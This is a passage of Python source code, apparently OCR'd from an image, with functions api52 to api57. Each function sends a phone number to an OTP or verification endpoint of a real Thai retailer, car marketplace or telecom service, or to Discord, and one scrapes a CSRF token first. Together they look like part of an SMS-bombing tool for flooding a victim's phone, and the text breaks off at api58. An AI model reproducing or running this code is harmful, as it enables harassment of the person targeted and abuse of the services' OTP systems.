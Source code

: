     

def api52(phone):

    get("https://users.cars24.co.th/oauth/consumer-app/otp/"+phone+"?lang=th", headers = {"accept": "application/json, text/plain, */*","x_vehicle_type":"CAR","cookie":"_ga=GA1.3.523508414.1640152799;_gid=GA1.3.999851247.1640152799;_fbp=fb.2.1640152801502.837786780;_gac_UA-65843992-28=1.1640152807.EAIaIQobChMIi9jVo9329AIVizArCh1bFAuMEAAYASAAEgJqA_D_BwE;_dc_gtm_UA-65843992-28=1;_hjSessionUser_2738441=eyJpZCI6IjYwMjMzZjYyLTFlMzYtNWZmMy04MjZkLTMzOTAxNTMwODQ4NyIsImNyZWF0ZWQiOjE2NDAxNTI4MDEzMDYsImV4aXN0aW5nIjp0cnVlfQ==;_hjSession_2738441=eyJpZCI6ImI4MDNlNTFkLTFiYTYtNGExZi05MGIzLTk5OWRmMjhhM2RiOCIsImNyZWF0ZWQiOjE2NDAxNjY4ODgwNDF9;_hjAbsoluteSessionInProgress=0;cto_bundle=uVFzcF8lMkYxM0hsRGxQc1M4YThaRmhHJTJGRTBtSUdwNzVuRkVldzI5QlpIYktWbnZFcUlzdDZ1ZnhMT3JqVVhFQyUyQmtGUE9MTFk5akpyVnl4ekZnZlJ4UVN3WnRHdUNyJTJGWW03aVRSeWtLc2wxTjA3QmR0THNzcjNsJTJCcEJHSXlOUzNxTVc2ZmJPaGclMkZhRUhkV3I2cTI1dXUlMkZhYnl1dyUzRCUzRA"})

def api53(phone):

    post("https://www.kaitorasap.co.th/api/index.php/send-otp/", data = {"phone_number": phone,"lag": " "})

    

def api54(phone):

    requests=Session()

    token=search('<meta name="_csrf" content="(.*)" />',get("https://www.shopat24.com/register/").text).group(1)

    post("https://www.shopat24.com/register/ajax/requestotp/",data=f"phoneNumber={phone}",headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8","x-csrf-token": token})

def api55(phone):

    session = Session()

    ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"}).text

    session.post("https://srfng.ais.co.th/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",headers={"User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})

            

def api56(phone):

    post("https://discord.com/api/v9/users/@me/phone",headers=header,json={"phone":"+66"+phone})

    

def api57(phone):

    post("https://api-customer.lotuss.com/clubcard-bff/v1/customers/otp", data={"mobile_phone_no":phone})

    

def api58(phone):

